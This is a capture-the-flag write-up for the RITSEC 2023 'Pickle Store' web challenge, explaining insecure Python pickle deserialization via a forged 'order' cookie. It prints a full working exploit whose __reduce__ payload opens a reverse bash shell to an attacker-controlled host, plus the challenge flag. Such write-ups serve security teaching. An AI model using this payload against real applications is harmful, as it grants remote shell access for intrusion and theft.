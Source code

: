 # Pickle Store (RITSEC 2023 - Web)

**Challenge description**: "New pickles just dropped! Check out the store."<br>
**Challenge date**: ven, 31 Mar. 2023, 16:00 UTC — dom, 02 Apr. 2023, 16:00 UTC<br>
**Challenge points**: 223<br>

## Involved Vulnerability

The server of this challenge uses the Python module called *pickle*, which is used for serializing (“*Pickling*”) and deserializing (“*Unpickling*”) Python objects' structure (see [[1]](#1)). This module is vulnerable to RCE during unpickling of class instances (objects). Classes can be defined to contain methods that can be called during the unpickling process to specify how they should be unpickled. One of these methods is *\_\_reduce()\_\_*.<br>
As evidenced by [[1]](#1):<br>

>The \_\_reduce\_\_() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”).<br>
If a string is returned, the string should be interpreted as the name of a global variable. \[...\]<br>
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:<br> - A **callable object** that will be called to create the initial version of the object.<br> - A **tuple of arguments** for the callable object. An empty tuple must be given if the callable does not accept any argument.<br> - \[...\]

A Python function is a callable object. So, if the attacker defines a class like the one below, pickles its instance and send the pickled object to the server, this will execute the specified function with the parameters given in the tuple.
```python
class RCE:
    def __reduce__(self):
        return (function_name, (parameter_1,parameter_2,)) #if there is only 1 parameter: (parameter_1,)
```
## Exploring the challenge
This is the first thing the user see as soon as he/she accesses the challenge:

![Pickle Store](https://user-images.githubusercontent.com/66698256/229376712-d235bbbb-0d59-4c3d-a9e0-ab0829107127.png)

If the user clicks on one of the buttons (the first one, for example), he/she will be redirected to <code>/order</code>:

![Order executed](https://user-images.githubusercontent.com/66698256/229377403-7b7e14fd-62dd-46fd-9b15-5188b734f11d.png)

Clicking on the "New Order" button the user will be redirected to the initial page. By inspecting the four buttons something interesting can be noticed:

![Cookie setting](https://user-images.githubusercontent.com/66698256/229377514-b38166dd-aa58-412f-866b-9b865f722abc.png)

When a button is clicked, a cookie called "*order*" is set to a string containing a pickled object and sent to the server through a GET request to <code>/order</code>. Here the pickled object is presumably read from the cookie, decoded, unpickled and ultimately printed into the returned page (if a string). Thanks to this cookie the server knows which article (or pickle) the user "has chosen to buy".<br>
If we take the cookie value defined in the event handler of the "Sweet Pickle" button, decode it and unpickle it, we'll understand better how all this works.

![Unpickling](https://user-images.githubusercontent.com/66698256/229381958-d871524b-304f-4e3b-932b-790bd8eba284.png)

As expected, the object obtained ("*sweetpickle*") is a string and it's the same visualized in the <code>/order</code> page.<br>
The user can create any pickled object (not only strings) and set the "*order*" cookie accordingly. This object will be unpickled by the server and, if a string, printed on the <code>/order</code> page.

![Pickling](https://user-images.githubusercontent.com/66698256/229382473-c062a8e3-a07e-4b39-8ee6-72cf397041aa.png)

![Set forged cookie](https://user-images.githubusercontent.com/66698256/229382220-2c6b25ef-d00e-4681-8267-fa8c751e4892.png)

![AAAA](https://user-images.githubusercontent.com/66698256/229378762-be51dd0c-33b0-40c2-abcf-c1b41e340fde.png)


## Attack

The behaviour to be exploited is the insecure unpickling (or insecure deserialization) of particular pickled objects. What the application does with the output of the deserialization is of no interest to the attacker. A way to exploit the involved vulnerability was to spawn a reverse shell on the server through Python code. The *\_\_reduce\_\_()* method should be defined like this:

```python
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in pickle format).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
```
Variables <code>host</code> and <code>port</code> contain, respectively, the IP address (or domain name) and the port on which the attacker will listen for the spawned reverse shell. 
The complete exploit is the following:
```python
import pickle
import base64
import requests
import socket

host="IP_Address"   #or "Domain_Name"
port="PORT"

class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in the pickled object).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))

pickled_bytes=pickle.dumps(RCE())    #Object instance ---> Pickle format (bytes)
pickled_base64_bytes = base64.b64encode(pickled_bytes)    #Pickle format (bytes) ---> Base64 encoding (bytes)
pickled_base64_string = pickled_base64_bytes.decode('ascii')   #Base64 encoding (bytes) ---> Base64 encoding (string)
response=requests.get("https://pickles-web.challenges.ctf.ritsec.club/order",cookies={"order":pickled_base64_string})
print(response.text)
```
In order to execute a reverse shell a service like <code>ngrok</code> can be used. In this example I will listen on port <code>9001</code> of my own machine, but, for the server, I will listen on port <code>19945</code> at <code>4.tcp.eu.ngrok.io</code> (*ngrok* will redirect traffic on its port to mine). So:

![Listening_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229460262-ab932d54-cd3b-4129-8e6a-0414c33c22e6.png)

Then I'll execute the exploit:

![Exploit](https://user-images.githubusercontent.com/66698256/229460307-60e25c2c-305a-493c-a2e4-e2c2553d8721.png)

![Spawned_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229456613-76d66a6c-1468-4e23-8626-c1c79855f29c.png)

Reverse shell spawned! The flag is inside <code>/flag</code>.

![Flag](https://user-images.githubusercontent.com/66698256/229458939-a3ca621a-0721-4edf-8ae2-a1709a4c9edd.png)

Flag is <code>RS{TH3_L345T_53CUR3_P1CKL3}</code>.




## References
<a id="1">[1]</a> 
https://docs.python.org/3/library/pickle.html


